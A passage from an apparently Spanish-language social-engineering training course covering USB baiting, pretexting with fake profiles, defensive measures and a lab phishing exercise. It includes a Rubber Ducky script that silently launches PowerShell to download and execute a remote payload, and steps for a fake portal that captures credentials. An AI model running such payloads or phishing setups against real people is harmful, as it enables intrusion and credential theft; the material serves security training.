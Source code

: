 
## 6.8. Ejemplo 4 – Baiting con Dispositivo USB

1. Configurar un payload en un USB con `Rubber Ducky` o `Malduino`.
2. Dejarlo en un área controlada.
3. Observar el comportamiento de la víctima.
   Ejemplo de script para `Rubber Ducky`:

```plaintext
DELAY 2000
STRING powershell -nop -w hidden -c "IEX(New-Object Net.WebClient).DownloadString('http://192.168.56.10/payload.ps1')"
ENTER
```

---

## 6.9. Ejemplo 5 – Pretexting Avanzado

Combina OSINT para construir un perfil falso:

* Foto de perfil generada en [thispersondoesnotexist.com](https://thispersondoesnotexist.com)
* Cuentas falsas en redes sociales.
* Historia coherente y creíble para interactuar con la víctima.

---

## 6.10. Medidas Defensivas

* Capacitación en concientización de seguridad.
* Simulaciones periódicas de phishing.
* Políticas de verificación de identidad por múltiples canales.
* Filtros de spam y bloqueo de adjuntos peligrosos.

---

## 6.11. Ejercicio Práctico – Simulación Completa

1. Lanza una campaña de phishing controlada contra usuarios de laboratorio.
2. Incluye un portal falso que capture credenciales.
3. Registra cuántas personas caen y mide el tiempo de respuesta.
4. Presenta un reporte de hallazgos y recomendaciones.

---

## 6.12. Cierre

La ingeniería social es el arma más poderosa en manos de un atacante porque **no necesita vulnerar sistemas**, sino personas. Practicarla en laboratorio te dará la experiencia necesaria para detectarla y bloquearla en el mundo real.

---
